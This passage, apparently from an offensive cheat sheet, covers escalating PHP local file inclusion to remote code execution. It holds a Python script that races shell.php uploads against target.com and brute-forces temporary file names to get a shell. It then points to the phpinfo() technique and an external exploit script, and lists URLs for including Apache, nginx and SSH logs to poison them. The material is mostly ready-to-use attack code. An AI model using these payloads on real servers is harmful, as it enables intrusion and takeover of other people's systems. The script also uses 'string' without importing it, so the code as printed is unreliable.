 ```
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

## **LFI to RCE via phpinfo()** ##

PHPinfo() displays the content of any variables such as **$\_GET**, **$\_POST** and **$\_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script phpInfoLFI.py (also available at [https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py))

Research from [https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

## **LFI to RCE via controlled log file** ##

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```
